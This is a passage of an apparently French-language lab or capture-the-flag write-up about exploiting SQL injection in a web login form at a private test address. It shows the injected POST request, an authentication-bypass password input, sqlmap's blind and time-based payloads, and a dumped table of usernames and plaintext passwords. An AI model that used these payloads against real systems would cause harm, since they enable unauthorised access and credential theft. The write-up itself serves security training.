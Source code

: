 ```plain
[*] Lancement du module sql
---
Injection MySQL dans http://192.168.1.39/checklogin.php via une injection dans le paramètre mypassword
Evil request:
    POST /checklogin.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    myusername=default&mypassword=%C2%BF%27%22%28&Submit=Login
---
```

On peut bypasser l'authentification en mettant par exemple l'utilisateur *admin* et *' or 1 #* comme password mais alors on obtient l'erreur suivante :  

```plain
Oups, something went wrong with your member's page account.
Please contact your local Administrator to fix the issue.
```

Regardons avec sqlmap ce que cette base de données a dans le ventre :  

```plain
---
Parameter: mypassword (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: myusername=admin&mypassword=-9510' OR 8773=8773#&Submit=Login

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: myusername=admin&mypassword=ddd' OR SLEEP(5)-- gvLi&Submit=Login
---
```

L'utilisateur utilisé est *root@localhost*, sans mot de passe.  

Il y a une table intéressante :  

```plain
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

Ce qui permet de s'authentifier comme *john* sur l'appli web... mais ça ne nous apporte rien de plus... si ce n'est nous dire qu'on est *john*.  
